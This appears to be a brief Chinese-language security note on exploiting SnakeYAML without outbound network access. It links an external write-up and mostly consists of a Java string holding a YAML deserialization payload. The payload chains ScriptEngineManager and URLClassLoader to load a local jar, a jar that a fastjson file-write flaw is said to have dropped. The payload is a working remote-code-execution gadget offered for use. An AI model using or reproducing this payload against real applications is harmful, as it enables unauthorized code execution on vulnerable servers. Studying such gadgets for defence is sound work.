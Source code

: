 # snakeyaml

## 不出网利用
>通过fastjson写文件如何本地加载rce


https://xz.aliyun.com/t/10655

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```
